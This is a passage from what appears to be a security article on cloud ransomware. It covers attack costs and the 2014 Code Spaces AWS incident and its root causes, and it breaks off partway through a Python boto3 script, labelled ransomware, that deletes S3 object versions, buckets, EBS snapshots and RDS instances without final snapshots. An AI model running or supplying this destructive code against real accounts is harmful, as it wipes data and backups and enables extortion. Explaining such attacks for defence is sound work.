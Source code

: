 ### Financial Impact Breakdown

- **Average ransom demand:** $2.3M
- **Average ransom paid:** $890K (38% pay)
- **Recovery costs (no backup):** $4.7M
- **Recovery costs (with backup):** $120K
- **Business disruption:** $12M average (18.7 days downtime)

**ROI for Attackers:** 890% profit margin (excluding operational costs)

---

## Real-World Case Study: Code Spaces (2014) - Lessons Still Unlearned

**Incident Timeline:**

```
June 17, 2014:
- Attacker gains access to Code Spaces AWS console
- Holds AWS infrastructure hostage
- Code Spaces attempts to regain control
- Attacker deletes EC2 instances, S3 buckets, EBS snapshots, backups
- Company loses all customer data
- Code Spaces shuts down permanently 12 hours later
```

**Root Cause:**
- Single AWS account with admin access
- No MFA on root account
- Backups in same AWS account (deleted by attacker)
- No offline/air-gapped backups

**2025 Parallel - Ransomware Evolution:**

Modern attacks follow the same pattern but with automation:

```python
# Modern ransomware script (AWS)
import boto3
import concurrent.futures

s3 = boto3.client('s3')
ec2 = boto3.client('ec2')
rds = boto3.client('rds')

def destroy_bucket(bucket_name):
    # Delete all versions
    versions = s3.list_object_versions(Bucket=bucket_name)
    for version in versions.get('Versions', []):
        s3.delete_object(Bucket=bucket_name, Key=version['Key'], VersionId=version['VersionId'])
    
    # Delete bucket
    s3.delete_bucket(Bucket=bucket_name)

def destroy_snapshots():
    snapshots = ec2.describe_snapshots(OwnerIds=['self'])['Snapshots']
    for snap in snapshots:
        ec2.delete_snapshot(SnapshotId=snap['SnapshotId'])

def destroy_rds_backups():
    dbs = rds.describe_db_instances()['DBInstances']
    for db in dbs:
        # Delete automated backups
        rds.delete_db_instance(
            DBInstanceIdentifier=db['DBInstanceIdentifier'],
            SkipFinalSnapshot=True,
```